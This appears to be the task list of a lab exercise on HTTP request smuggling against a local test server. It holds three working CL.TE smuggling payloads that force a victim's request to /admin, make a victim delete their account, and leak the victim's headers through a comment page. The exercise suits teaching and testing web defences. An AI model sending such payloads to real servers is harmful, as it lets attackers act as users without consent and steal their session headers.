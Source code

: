 # Task list


## Task 1 - redirect to /admin

The idea is to use HTTP request smuggling to redirect a victim to another page, making the user perform an action without their consent.

```sh
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
x-foo: x
```


## Task 2 - redirect to /DeleteAccount

The goal is to make the user unknowingly delete their account by redirecting them to the /DeleteAccount page.

```sh
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

POST /deleteAccount HTTP/1.1
x-foo: x
```


## Task 3 - redirect to /postComment to leak headers

The objective is to leak sensitive headers by redirecting the user to the /postComment page. Having a page that makes persistent and public (aka "reflected" to a page) a POST parameter is indicative of http smuggling header leakage vulnerabilities.

```sh
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

POST /postComment HTTP/1.1
Host: localhost:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

x=
```